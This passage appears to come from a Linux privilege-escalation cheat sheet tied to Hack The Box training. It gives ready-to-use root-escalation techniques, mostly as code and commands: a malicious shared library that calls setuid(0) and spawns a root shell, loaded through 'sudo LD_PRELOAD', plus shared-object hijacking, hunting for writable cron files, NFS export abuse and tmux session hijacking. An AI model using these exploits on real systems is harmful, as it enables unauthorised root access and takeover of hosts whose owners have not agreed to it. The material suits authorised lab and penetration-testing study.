 ```c
    setuid(0);
    system("/bin/bash");
}
```
Compile and execute :
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

### Shared Object Hijacking

```bash
ldd --version
ldd /path/2/binary
readelf -d /path/2/binary | grep PATH
```
Create malicious .so file
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```
Compile it 
```bash
gcc src.c -fPIC -shared -o /path/2/lib/lib.so
```

### Python Object Hijacking
https://academy.hackthebox.com/module/51/section/1640


### Crontab
```bash
ls -la /etc/cron.daily/
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
pspy
```

### NFS Weak privileges
```bash
showmount -e $TARGET
cat /etc/exports
sudo mount -t nfs $TARGET:/tmp /mnt
```

### Tmux Session Hijack
```bash
ps aux | grep tmux
# output example : root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
ls -la /shareds 
tmux -S /shareds
```
